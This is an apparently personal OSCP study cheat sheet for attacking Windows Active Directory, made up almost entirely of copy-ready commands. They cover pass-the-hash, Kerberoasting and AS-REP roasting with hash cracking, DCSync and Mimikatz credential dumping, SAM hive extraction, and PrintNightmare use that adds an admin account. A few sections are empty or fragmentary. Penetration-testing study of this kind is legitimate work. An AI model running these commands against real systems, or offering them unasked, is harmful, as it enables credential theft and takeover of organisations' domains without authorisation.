 ```yaml
---
title: Active Directory
author: linatl
category: "OSCP"
date: "2021-03-14 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Basic Domain Enumeration Commands
```
> net user /domain
> net user some_admin /domain
> net group /domain
> net accounts

Powershell:
> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent
Domain()
```



###### Responder
```
> responder -I eth0 -rdw
```

###### Pass The Hash with CrackMapExec
```

```

###### Pass the Hash with PTH
```
> pth-winexe -U username%hAsHPaRt1:hAsHPaRt2 //10.10.10.10 cmd

```

###### PowerView
```
> cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 ./

> Import-Module .\PowerView.ps1
> Get-NetLoggedon -ComputerName computer1
> Get-NetSession -ComputerName dc01
```

###### Kerberos ~ validating usernames
```
https://github.com/ropnop/kerbrute
./kerbrute userenum --dc 10.10.10.10 -d domain.htb users
```


###### Kerberos ~ AS-REP Roasting
```
> impacket-GetNPUsers domain.local/ -format john -usersfile wordlist -no-pass -dc-ip 10.10.10.10
> john tgt-file --wordlist=/usr/share/wordlists/rockyou.txt
or:
> hashcat -a 0 -m 18200 tgt-file /usr/share/wordlists/rockyou.txt --force
```

###### Kerberos ~ Kerberoasting
```
> GetUserSPNs.py -request -dc-ip 10.10.10.10 domain.local/username -save -outputfile tgsfile.out

> hashcat -m 13100 -a 0 tgsfile.out /usr/share/wordlists/rockyou.txt --force
or:
> python3 /usr/share/kerberoast/tgsrepcrack.py wordlist.txt ticketname
```

///
GetST


##### DS-SYNC attacks
```
with impacket-secretsdump:
> impacket-secretsdump domain/username@10.10.10.10
> impacket-secretsdump domain/username:password@10.10.10.10

with mimikatz:
> Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
> lsadump::dcsync /domain:domain.local /user:Administrator
```

###### Bloodhound
```
Bloodhound documentation:
https://bloodhound.readthedocs.io/en/latest/

Installation:
> sudo apt install bloodhound
> sudo pip3 install bloodhound

First, gather the data with an ingestor, either the bloodhound-python script from fox-it or SharpHound.Then import the json files in the neo4j database.
> (sudo) neo4j console
starts on localhost:7687

Example bloodhound-python:
> bloodhound-python -c All -u 'username' -p 'password' -gc "MACHINE.domain.local" -dc "MACHINE.domain.local" -d "domain.local" -ns 10.10.10.10

Example SharpHound
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
> Import-module .\SharpHound.ps1
> Invoke-Bloodhound -CollectionMethod All [-d domain.local]
Or at once:
> powershell -exec bypass -command "& { Import-Module SharpHound.ps1; Invoke-Bloodhound -CollectionMethod All; }"
```


###### Mimikatz
```
> .\mimikatz.exe
Then:
> privilege::debug
> sekurlsa::logonpasswords
> sekurlsa::tickets
> kerberos::list /export
> sekurlsa::logonpasswords
> sekurlsa::pth /user:some_admin /domain:domain.com /ntlm:hAsHPaRt2 /run:PowerShell.exe
```


###### Zerologon (probably going to break the domain...)
```
> python3 49871.py -do check -target NETBIOSNAME -ip 10.10.10.10
```

###### PrintNightmare
```
https://github.com/calebstewart/CVE-2021-1675/

Run with (in powershell):
> powershell -exec bypass -command "& { Import-Module .\CVE-2021-1675.ps1; Invoke-Nightmare; }"
> Invoke-Nightmare -NewUser "username" -NewPassword "password" -DriverName "PrintMe"
```

###### NoPac
```
https://github.com/cube0x0/noPac
```


###### HiveNightmare
```
https://github.com/GossiTheDog/HiveNightmare

Works on all supported versions of Windows 10, where System Protection is enabled (should be enabled by default in most configurations).
Check for vuln by checking if the patch for CVE-2021–36934 is installed, and by checking if system protection is enabled (with rstrui.exe ?)
```

###### Hashdump
```
Dumping SAM hashes from CMD:
https://miloserdov.org/?p=4129

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Location:
C:/Windows/System32/config/SAM
C:/Windows/System32/config/SYSTEM

Dumping hashes from attack machine:
impacket-secretsdump domain.local/username@10.10.10.10 -just-dc
```
